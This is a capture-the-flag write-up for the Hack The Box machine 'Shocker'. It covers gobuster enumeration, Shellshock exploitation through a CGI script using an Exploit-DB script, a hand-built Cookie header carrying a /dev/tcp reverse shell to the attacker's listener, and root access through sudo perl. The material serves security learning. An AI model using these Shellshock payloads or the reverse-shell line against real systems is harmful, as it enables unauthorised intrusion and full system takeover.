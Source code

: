 # Shocker: 10.10.10.56

## Hints

- Try multiple wordlists with gobuster
- Read potential exploit source code to understand the exploit

## nmap

Starting with the usual `nmap` scan.

```none
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
```

Based on the machine name, and a web port open - looks like this box is about the [Shellshock vulnerability](https://en.wikipedia.org/wiki/Shellshock_(software_bug)).

![Web root](screenshots/web.png)

## 80: Recon + Gobuster

Did the usual `gobuster` on the base directory, and included some extensions looking for Bash scripts.

```none
└─$ gobuster dir -t 20 -u http://10.10.10.56 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -o gobuster_80_root_dirmedium.log -x sh,bash
```

No results! I dug around for a long time trying to figure out why I couldn't find anything. Tried some different wordlists, messed with status codes, messed with extensions, and messed with user agents. After a long time, I tried a random wordlist that I wouldn't usually use.

```none
└─$ gobuster dir -t 20 -u http://10.10.10.56 -w /usr/share/wordlists/dirb/big.txt -o gobuster_80_root_dirbbig.log  -x sh,bash
```

And success! Something interesting...

```none
/cgi-bin/             (Status: 403) [Size: 294]
```

![Web forbidden](screenshots/web_forbidden.png)

So, back to `gobuster` on a new endpoint.

```none
└─$ gobuster dir -t 20 -u http://10.10.10.56/cgi-bin/ -w /usr/share/wordlists/dirb/big.txt -o gobuster_80_cgibin_dirbbig.log -x sh,bash
```

The key result:

```none
/user.sh              (Status: 200) [Size: 118]
```

And running a `curl` on the discovered file:

```none
└─$ curl http://10.10.10.56/cgi-bin/user.sh -vvv
*   Trying 10.10.10.56:80...
* Connected to 10.10.10.56 (10.10.10.56) port 80 (#0)
> GET /cgi-bin/user.sh HTTP/1.1
> Host: 10.10.10.56
> User-Agent: curl/7.74.0
> Accept: */*
> 
* Mark bundle as not supporting multiuse
< HTTP/1.1 200 OK
< Date: Sun, 27 Jun 2021 02:43:59 GMT
< Server: Apache/2.4.18 (Ubuntu)
< Transfer-Encoding: chunked
< Content-Type: text/x-sh
< 
Content-Type: text/plain

Just an uptime test script

 22:43:59 up  4:31,  0 users,  load average: 0.12, 0.20, 0.09


* Connection #0 to host 10.10.10.56 left intact
```

## Shellshock: Python Exploit

Now we have some key pieces of information. The location of a script at `cgi-bin/user/sh`. That the machine name gives away the vulnerability - shellshock. And that the webserver is Apache running on Ubuntu. A little bit of `searchsploit` magic.

```none
└─$ searchsploit shellshock | grep -i apache
Apache mod_cgi - 'Shellshock' Remote Command Injection                            | linux/remote/34900.py
```

After a quick review of the script, it looks like the primary thing it's doing is setting the Shellshock payload with a lot of logic about creating a new request to the web server. I went through the process of running the script and it worked well. The list of commands used:

```none
# Copy the script
searchsploit -m linux/remote/34900.py

# Run
python 34900.py payload=reverse rhost=10.10.10.56 rport=80 pages=/cgi-bin/user.sh lhost=10.10.14.56 lport=8000
[!] Started reverse shell handler
[-] Trying exploit on : /cgi-bin/user.sh
[!] Successfully exploited
[!] Incoming connection from 10.10.10.56
10.10.10.56> id
uid=1000(shelly) gid=1000(shelly) groups=1000(shelly),4(adm),24(cdrom),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare)
```

## Shellshock: Burp

The primary reason I mess around with Hack The Box is to learn new stuff. So it makes sense to dissect the Python exploit to understand how it works. I started by intercepting a request to `http://10.10.10.56/cgi-bin/user.sh`. Then looked at the request being constructed in the Python exploit. It was setting a payload on the `Cookie` and `Referer` headers. Here is an example of the payload:

```python
payload = "() { :;}; /bin/bash -c /bin/bash -i >& /dev/tcp/"+lhost+"/"+str(lport)+" 0>&1 &"
```

Then, I added a `Cookie` header, with a reverse shell payload.

```none
GET /cgi-bin/user.sh HTTP/1.1
Host: 10.10.10.56
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Cookie: () { :;}; /bin/bash -i >& /dev/tcp/10.10.14.56/8000 0>&1
Content-Length: 2


```

![Web cookie](screenshots/burp_cookie.png)

Success!

```none
└─$ nc -lvnp 8000                                                                                               1 ⨯
listening on [any] 8000 ...
connect to [10.10.14.56] from (UNKNOWN) [10.10.10.56] 54294
bash: no job control in this shell
shelly@Shocker:/usr/lib/cgi-bin$ id
id
uid=1000(shelly) gid=1000(shelly) groups=1000(shelly),4(adm),24(cdrom),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare)
```

## Flag: User

Looking at the `home` directory, and `/etc/passwd` file shows one user, and the user flag.

```none
shelly@Shocker:/usr/lib/cgi-bin$ ls -lisa /home 
ls -lisa /home
total 12
    12 4 drwxr-xr-x  3 root   root   4096 Sep 22  2017 .
     2 4 drwxr-xr-x 23 root   root   4096 Sep 22  2017 ..
152446 4 drwxr-xr-x  4 shelly shelly 4096 Sep 22  2017 shelly
shelly@Shocker:/usr/lib/cgi-bin$ wc -c /home/shelly/user.txt
wc -c /home/shelly/user.txt
33 /home/shelly/user.txt
```

## Flag: Root

This was a pretty simple privesc. Usually, I try to do multiple things at once - so I ran linpeas while having a manual look around the system. Both found a weak `sudo` configuration.

```none
[+] Checking 'sudo -l', /etc/sudoers, and /etc/sudoers.d
[i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#sudo-and-suid                                       
Matching Defaults entries for shelly on Shocker:                                                                    
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User shelly may run the following commands on Shocker:
    (root) NOPASSWD: /usr/bin/perl
```

With the ability to run `perl` as sudo without a password - root was pretty easy. I suck at `perl` so I did a quick lookup on [`perl` on GTFObins](https://gtfobins.github.io/gtfobins/perl/). Selected the `Shell` option and easily opened a shell as root.

```none
shelly@Shocker:/usr/lib/cgi-bin$ sudo perl -e 'exec "/bin/sh";'
sudo perl -e 'exec "/bin/sh";'
id
uid=0(root) gid=0(root) groups=0(root)
wc -c /root/root.txt
33 /root/root.txt
```

## Lessons Learned

- Never rely on one wordlist
- Enumeration and more information always helps. The example today was getting a good Shellshock to exploit that was specifically targeted for Apache with a nice working exploit
- Dig deeper to understand exploits and try more than one approach to get better at method and tools

## Useful Resources

- [HackTheBox Shocker - ippsec](https://www.youtube.com/watch?v=IBlTdguhgfY)
- [The Shellshock Bug In About Four Minutes by Tom Scott](https://www.youtube.com/watch?v=aKShnpOXqn0)
